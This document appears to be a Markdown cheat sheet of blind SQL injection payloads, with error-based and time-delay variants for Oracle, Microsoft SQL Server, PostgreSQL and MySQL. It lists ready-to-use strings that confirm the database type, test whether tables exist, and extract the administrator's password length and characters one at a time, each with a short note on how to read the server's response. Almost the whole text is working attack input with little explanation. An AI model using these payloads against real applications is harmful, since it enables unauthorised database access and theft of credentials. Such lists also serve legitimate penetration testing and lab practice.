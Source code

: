 ### Blind SQL injection with conditional errors (No visible message)
```sql
' || (select ' ') || ' >> Non Oracle

' || (select ' ' from dual) || ' >> Oracle #200 ok means Oracle database exists.
```

### Blind SQL Injection with Conditional Errors to Determine Table, Other Info Exist or Not
```sql
' || (select ' ' from [table name here] where rownum = 1) || '-- - >> Oracle #200 ok means that table exists.

select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ' ' END from users where username='administrator' >> Oracle #500 error means exists.

select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ' ' END from users where username='administrator' and LENGTH(password)>20 >> Oracle #500 error means exists.

select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ' ' END from users where username='administrator' and SUBSTRING(password,1,1)='a' >> Oracle #500 error means exists.
```

### Blind SQL injection with time delays
```sql
' UNION SELECT SLEEP(5);-- -

' || (dbms_pipe.receive_message(('a'),10))-- - >> Oracle

' || (WAITFOR DELAY '0:0:10')-- - >> Microsoft

' ||  (SELECT pg_sleep(10))-- - >> PostgreSQL

' ||  (SELECT SLEEP(10))-- - >> MySQL
```

### Blind SQL injection with time delays and information retrieval
```sql
1) PostrgreSQL

' || (select case when (1=1) then pg_sleep(10 ) else pg_sleep (-1) end)-- -

' || (select case when (1=1) then pg_sleep(5) else pg_sleep(-1) end from [table name here])-- - or, ';select case when (1=1) then pg_sleep(5) else pg_sleep(-1) end from users-- -

' || (select case when (username='[username here]') then pg_sleep(5) else pg_sleep(-1) end from [table name here])-- -

' || (select case when (username='[username here]' and LENGTH(password)>n) then pg_sleep(10) else pg_sleep(-1) end from users)-- -

';select case when (1=1) then pg_sleep(5) else pg_sleep(-1) end from users--
```

